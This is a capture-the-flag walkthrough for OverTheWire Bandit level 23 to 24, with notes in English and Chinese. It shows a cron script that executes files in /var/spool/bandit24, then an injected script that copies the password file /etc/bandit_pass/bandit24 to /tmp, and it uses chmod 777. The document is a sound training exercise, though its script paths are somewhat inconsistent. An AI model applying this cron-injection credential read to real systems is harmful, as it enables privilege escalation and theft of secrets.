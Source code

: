 ```py
bandit23@bandit:/etc/cron.d$ ls
atop  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24

bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
      echo "Handling $i"
	    timeout -s 9 60 ./$i
	    rm -f ./$i      # ./$i means each file will be executed and the ‘rm -f $i’ will force remove it.
    fi
done
```

What does this mean to us?
- a script that is running commands at the `user permission level of Bandit24`.
  - That means that we could possibly inject our own script to be run if we put a script of our own into the `/var/spool/bandit24` directory.
- the password was stored in `/etc/bandit_pass/` so bandit24 password is there as well


- `/var/spool/cron/` 这个目录下存放的是每个用户包括root的`crontab`任务
  - 每个任务以创建者的名字命名，tom建的crontab任务文件就是/var/spool/cron/tom。
  - 一般一个用户最多只有一个crontab文件。
- 我们在`/var/spool/bandit24`目录下就可以运行`bandit24`的定时任务
- 创建一个放在改目录下的脚本就可以执行了
- `vim getpass.sh`进入vim编辑模式输入脚本
- 写入 `cat /etc/bandit_pass/bandit24 > /tmp/bandit24pass`
- `：wq`保存退出

```py
# go ahead and create a temporary directory.

# bandit23@bandit:/var/spool/bandit24$ vim getpass
# bandit23@bandit:/var/spool/bandit24$ chmod 777 getpass

bandit23@bandit:/etc/cron.d$ mkdir /tmp/grace44
bandit23@bandit:/etc/cron.d$ cd /tmp/grace44
bandit23@bandit:/tmp/grace44$ nano

# open Nano we will go ahead and write script to inject:

#!/bin/bash
cat /etc/bandit_pass/bandit24 > tmp/jhalon/pass      
# reading the contents of the bandit24 password file (/etc/bandit_pass/bandit24)
# and sending its output into a file that our bandit23 user account can see. (tmp/jhalon/pass)
#Save this new script as script.sh.


$ chmod 777 script.sh
# make our script executable by bandit24. 777 is excessive for permissions
# can also chmod -R 777 your tmp file in order to ls your files if you’re finding not listing your directory to be irritating.

```